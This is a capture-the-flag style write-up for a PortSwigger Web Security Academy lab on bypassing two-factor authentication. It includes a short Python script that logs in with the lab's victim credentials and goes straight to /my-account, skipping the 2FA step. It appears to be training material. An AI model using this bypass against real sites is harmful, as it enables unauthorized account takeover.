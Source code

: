 ```yaml
---
title: 2FA simple bypass
tags:
  - web-app
  - authentication
---
```


<a href="https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass/">
2. 2FA simple bypass</a>

The 2FA page after authentication can be bypassed entirely by traveling to
/my-account directly after logging in.

Solution:

```python
# usage:
# python3 2.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --w carlos \
# --p montoya

from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, who: str, password: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.password = password
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        r = self.s.post(
            f"{self.url}/login",
            data={
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login(self.who, self.password)
        self.s.get(f"{self.url}/my-account")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    parser.add_argument("--p", "--password", dest="password")
    args = parser.parse_args()
    s = Solution(args.url, args.who, args.password)
    s.solve()


if __name__ == "__main__":
    main()
```
